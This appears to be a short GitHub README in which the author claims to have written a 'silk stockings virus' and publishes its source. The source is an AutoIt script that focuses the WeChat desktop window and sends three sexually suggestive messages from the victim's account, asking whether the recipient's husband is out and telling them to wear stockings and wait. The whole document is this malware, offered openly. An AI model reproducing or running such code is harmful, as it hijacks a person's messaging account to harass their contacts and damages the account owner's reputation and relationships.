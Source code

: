 # siwa
不装了，那丝袜病毒是我写的

现在已经公开源代码

WinActivate("[CLASS:WeChatMainWndForPC]") 
Sleep(10)
If WinActive("[CLASS:WeChatMainWndForPC]") Then ; 
	Send("你老公出门了吗")
	Send("{ENTER}")
	Send("等下我去你家")
	Send("{ENTER}")
	Send("穿丝袜等我")
	Send("{ENTER}")
EndIf
